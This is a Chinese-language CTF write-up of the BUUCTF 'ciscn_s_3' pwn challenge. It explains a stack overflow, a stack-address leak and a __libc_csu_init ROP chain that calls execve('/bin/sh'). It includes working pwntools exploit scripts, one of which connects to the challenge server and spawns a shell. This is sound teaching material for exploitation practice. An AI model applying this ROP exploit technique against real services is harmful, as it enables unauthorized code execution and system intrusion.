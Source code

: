 ### __libc_csu_init ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67aeefa0d0e0a243d4ff1c9e.png)

buf 给的大小过多，明显栈溢出

![image-20250214152429788](C:\Users\ydd33\AppData\Roaming\Typora\typora-user-images\image-20250214152429788.png)

确认大小，但是没有找到可利用字符串及能泄露 libc 的函数

![](https://pic1.imgdb.cn/item/67aeefdad0e0a243d4ff1cac.png)

汇编下分析 vuln 函数发现缺少了 leave 指令（可参考栈迁移那一节）

所以函数调用完毕后并不会清空栈

![](https://pic1.imgdb.cn/item/67aef007d0e0a243d4ff1cb8.png)

因为 vunl 函数最后调用了 write 函数输出 20 字节数据，所以可以先泄露 buf 地址

```python
from pwn import *

p = process('./ciscn_s_3')
gdb.attach(p)

vul_addr = 0x4004ed

payload = b'a' * 0x10 + p64(vul_addr)

p.send(payload)
p.recv(0x20)

stack_addr = u64(p.recv(8))

print(hex(stack_addr))
```

按 ni 或 si 跟进

![](https://pic1.imgdb.cn/item/67af0289d0e0a243d4ff2815.png)

最后输入 exit 退出拿到打印的地址

![](https://pic1.imgdb.cn/item/67af03cad0e0a243d4ff28ba.png)

相减得到 0x148**（题目环境为 0x118）**

![](https://pic1.imgdb.cn/item/67af079fd0e0a243d4ff2b81.png)

再看题目中给的 gadgets，分别对 rax 赋予了 0xf（sigret）, 和 0x3b（execve）

因此接下来就可以分为两种做法，目标都是控制寄存器的值来执行 execve

在 x86_64 架构下，`execve` 系统调用的参数通过寄存器传递：

- **rdi**: `pathname` — `/bin/sh` 的地址
- **rsi**: `argv` — 传递给程序的参数（此处为 `0`）
- **rdx**: `envp` — 环境变量（此处为 `0`）

`__libc_csu_init` 是一个常见的函数，用于在程序启动时初始化静态全局变量和进行一些库初始化工作

这个函数通常会被放置在程序的可执行文件的 `.init` 段中

它也是一种可以利用的 **gadget**，可以用来控制寄存器

**`__libc_csu_init` 的作用：** 该函数通常包含一些对寄存器的修改操作，它的末尾可能正好是一个 `pop` 操作或类似的指令，因此可以通过链式利用（gadget chaining）来控制 `rdi`、`rsi` 和 `rdx` 寄存器

![](https://pic1.imgdb.cn/item/67af0bbdd0e0a243d4ff2d6e.png)

接下来再造成一次溢出，进行 execve 函数调用，然后只要让 rdi=/bin/sh，rsi=0，rdx=0 即可获得 shell

没有直接找到设置 rdx 寄存器的指令，但是找到了改变 rdx 寄存器方法的指令

```
mov rdx, r13
pop r13
```

![](https://pic1.imgdb.cn/item/67afdeccd0e0a243d4ff79cf.png)

设置 r13 寄存器里的值，它其实是执行了两个步骤

第一步 mov，改变 r13 的值，之后 ret，进行地址跳转

我们可以用 pop r13 这个指令，先将 r13 设置为 0，只会 ret 到 mov rdx，r13，这样就将 rdx 设置为0了

但是将 rbx 设置为了 0，下面的 call 会变成执行 call ptr[12]

![](https://pic1.imgdb.cn/item/67afe1cbd0e0a243d4ff79ee.png)

最后去找 pop rid;

![](https://pic1.imgdb.cn/item/67afe238d0e0a243d4ff79f1.png)

构造 payload

```python
from pwn import *

io = remote('node5.buuoj.cn',27324)

main = 0x0004004ED
execv = 0x04004E2
pop_rdi = 0x4005a3
pop_rbx_rbp_r12_r13_r14_r15 = 0x40059A
mov_rdxr13_call = 0x0400580
sys = 0x00400517

pl1 = b'/bin/sh\x00' * 2 + p64(main)

io.send(pl1)
io.recv(0x20)

sh = u64(io.recv(8)) - 280

pl2 = b'/bin/sh\x00' * 2 + p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(0) * 2 + p64(sh + 0x50) + p64(0) * 3
pl2 += p64(mov_rdxr13_call) + p64(execv)
pl2 += p64(pop_rdi) + p64(sh) + p64(sys)

io.send(pl2)
io.interactive()
```

